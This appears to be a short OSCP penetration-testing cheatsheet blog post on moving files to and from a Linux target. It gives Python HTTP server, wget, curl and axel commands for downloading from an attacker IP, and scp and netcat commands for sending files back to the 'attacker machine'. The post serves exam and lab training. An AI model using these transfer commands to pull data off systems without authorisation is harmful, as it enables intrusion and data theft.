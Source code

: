 ```yaml
---
title: Linux File Transfers
author: sKyW1per
category: "OSCP"
date: "2021-03-20 00:01"
tags: [OSCP, Cheatsheet]
layout: post
---
```


###### Start a webserver
```
Python3
$ sudo python3 -m http.server 80
Python2
$ sudo python -m SimpleHTTPServer 80
```

###### Download from bash
```
$ wget 192.168.1.1:443/file.txt
$ curl 192.168.1.1:443/file.txt -o file.txt
$ axel 192.168.1.1:443/file.txt -o file.txt
```

###### SCP transfer files back to attacker machine over ssh
```
$ scp filename.zip username@192.168.1.1:
(don't forget the ':' )
```

###### netcat
```
On the target system:
$ nc -lvp 80 > file.txt
On the attacker system:
$ nc 192.168.1.1 80 < file.txt

Also works the other way, to get files back to the attacker system.
```
